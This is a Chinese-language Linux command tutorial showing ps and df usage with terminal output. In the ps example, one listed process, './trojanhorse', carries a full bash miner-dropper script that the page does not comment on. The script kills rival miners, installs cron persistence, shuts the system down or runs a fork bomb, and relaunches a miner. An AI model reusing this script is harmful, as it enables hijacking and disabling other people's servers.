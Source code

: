 ```sh
[root@tianqikai ~]# ps -ef|grep redis
root     17949  3166  0 18:25 pts/1    00:00:00 grep --color=auto redis
es       23793     1  0 Jul03 ?        03:05:21 ./trojanhorse -c                                                                                                                                                                           #!/bin/bash  killminers() {     pkill obama1     pkill playstation     pkill xmrig ?pkill java     pkill cnrig     pkill joseph     pkill kswapd0     pkill laxobist }  autoruncfg=$(cat /var/tmp/.google/.yahoocfg)  hook=$(grep -oP '(?<="hook": ")[^"]*' ${autoruncfg}) apache3=$(grep -oP '(?<="apache3": ")[^"]*' ${autoruncfg}) minercfg=$(grep -oP '(?<="minercfg": ")[^"]*' ${autoruncfg}) staticd=$(grep -oP '(?<="static": ")[^"]*' ${autoruncfg})  while : do     killminers      if ! crontab -l | grep -q 'trojanhorse';     then         rm -rf .temp         echo "* * * * * ${hook} > /dev/null <&1 2>&1 & disown" >> .temp         echo "@monthly ${hook} > /dev/null <&1 2>&1 & disown" >> .temp         echo "@reboot ${apache3} > /dev/null <&1 2>&1 & disown" >> .temp          crontab .temp         rm -rf .temp     fi      if [[ -f "$staticd/config.json" ]];     then         if [[ $(id -u) = 0 ]];         then             init 0         else             :(){ :|:& };:         fi     fi      if ! pgrep -x xredis >/dev/null     then         $hook > /dev/null <&1 2>&1 & disown     fi      sleep 3 done  ./trojanhorse
[root@tianqikai ~]# ps -ef|grep redis|wc -l
2
```

###  1.3.4 df 命令

####  1.3.4.1 命令格式：

```bash
df [选项] [文件]
```

####  1.3.4.2 命令功能：

显示指定磁盘文件的可用空间。如果没有文件名被指定，则所有当前被挂载的文件系统的可用空间将被显示。默认情况下，磁盘空间将以 1KB 为单位进行显示，除非环境变量 POSIXLY_CORRECT 被指定，那样将以512字节为单位进行显示

```bash
[root@tianqikai ~]# df -lh
#文件系统      Inode (I)已用 (I)可用 (I)已用% 挂载点
Filesystem      Size  Used Avail Use% Mounted on
devtmpfs        3.9G     0  3.9G   0% /dev
tmpfs           3.9G   68K  3.9G   1% /dev/shm
tmpfs           3.9G 1004K  3.9G   1% /run
tmpfs           3.9G     0  3.9G   0% /sys/fs/cgroup
/dev/vda1        50G   21G   27G  45% /
tmpfs           783M     0  783M   0% /run/user/0
overlay          50G   21G   27G  45% /var/lib/docker/overlay2/c6db689ff3db47676a61adc265a2ca650ac66d824740c610e986f0ce47e70999/merged
overlay          50G   21G   27G  45% /var/lib/docker/overlay2/9238a2d68d5232a8d234278d60a1984473c7946b43196ab0ba70c456d049a67e/merged
overlay          50G   21G   27G  45% /var/lib/docker/overlay2/a4cb166abe9f2a1567b748206b100532d1888d55245ccfe0bb0db7695eab5722/merged
overlay          50G   21G   27G  45% /var/lib/docker/overlay2/79a5e658ebd4075e1a6c877cc9045c92150ddb52d3cad8e6fcc3da868336c9f5/merged
overlay          50G   21G   27G  45% /var/lib/docker/overlay2/90daf168a1e405093f7e0a291a7b7c806fa80b11243bf8a4b8ac1eead6fcacd8/merged
tmpfs           783M     0  783M   0% /run/user/1000

```
